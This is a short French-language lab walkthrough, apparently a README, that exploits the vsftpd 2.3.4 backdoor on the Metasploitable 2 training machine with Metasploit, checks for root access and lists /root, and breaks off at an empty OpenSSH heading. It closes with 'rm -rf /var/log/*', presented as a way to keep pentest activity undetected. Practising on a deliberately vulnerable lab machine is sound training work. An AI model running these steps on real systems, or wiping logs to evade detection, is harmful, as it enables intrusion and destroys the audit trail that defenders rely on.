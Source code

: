 # Pentest sur la machine Metasploit 2

## Exploitation de vsftpd 2.3.4

Sur la Kali Linux, vérifier que le service FTP est actif en effectuant une connexion : 
```bash
ftp 10.10.0.200
```

### Lancement de Metasploit

```bash
sudo msfconsole
```

<p align="center">
    <img src="msfconsole.png" alt="msfconsole" style="width: 800px;" />
</p>

### Chargement et configuration du module d'exploitation

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

```bash
set RHOSTS 10.10.0.200
set RPORT 21
```

```bash
run
```
<p align="center">
    <img src="exploit.png" alt="exploit" style="width: 800px;" />
</p>

### Vérifications post-exploit

Pour vérifier si cela a réussi (whoami doit renvoyer root) : 

```bash
whoami
```

Lister les fichiers sensibles : 

```bash
ls /root
```

<p align="center">
    <img src="post-exploit.png" alt="post-exploit" style="width: 800px;" />
</p>

Eviter que les activités de pentest soient détectées : 

```bash
rm -rf /var/log/*
```

## Exploitation d'OpenSSH
